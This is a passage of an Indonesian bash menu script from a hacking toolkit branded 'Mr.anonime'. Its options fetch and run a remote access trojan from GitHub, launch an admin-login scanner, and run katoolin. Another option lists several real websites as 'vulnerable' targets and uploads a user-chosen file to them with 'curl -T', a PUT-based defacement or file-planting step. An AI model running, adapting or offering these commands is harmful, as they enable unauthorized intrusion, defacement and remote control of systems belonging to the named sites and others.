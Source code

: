 if [ $bro = 42 ] || [ $bro = 42 ]
then
clear
figlet "Mr.anonime" | lolcat
sleep 1
git clone https://github.com/Xi4u7/A-Rat.git
mv A-Rat $HOME
cd $HOME/A-Rat
python2 A-Rat.py
fi

if [ $bro = 43 ] || [ $bro = 43 ]
then
clear
figlet "Mr.anonime" | lolcat
sleep 1
git clone https://github.com/DarknessCyberTeam/Scan-Website-Admin-Login
mv Scan-Website-Admin-Login $HOME
cd $HOME/Scan-Website-Admin-Login
python2 Admin-Login.py
fi

if [ $bro = 44 ] || [ $bro = 44 ]
then
clear
echo "\033[34;1m"
cowsay -f kiss.cow "Mranonime" | lolcat
figlet -f slant Mranonime
echo "\033[37;1m"
echo "Masukan Web target"
echo "Contoh Web Target vuln"
echo "	http://bestilling.udir.no/"
echo "	http://560560.ru/"
echo "	http://myownemailer.com/"
echo "	http://Zoocentral.co.za/"
echo "	http://50-50-50.ru/"
echo "	http://tirupurjobs.net/"
echo "	http://Matrimony.co.za/"
echo "	http://Bheh.co.za/"
read -p "[Mranonime]>" target
echo "Masukan Nama script kalian"
echo "yang ada di Luar Folder Ruang Penyimpanan"
read -p "[Mranonime]>" script
curl -T /storage/emulated/0/$script $target
echo "\033[33;1m"
echo "Selesai! Tod Cek di $target $script "
fi

if [ $bro = 45 ] || [ $bro = 45 ]
then
clear
cowsay -f sheep.cow "Mranonime" | lolcat
figlet "Mr.anonime" | lolcat
sleep 1
cd
cd module
python2 katoolin.py
fi
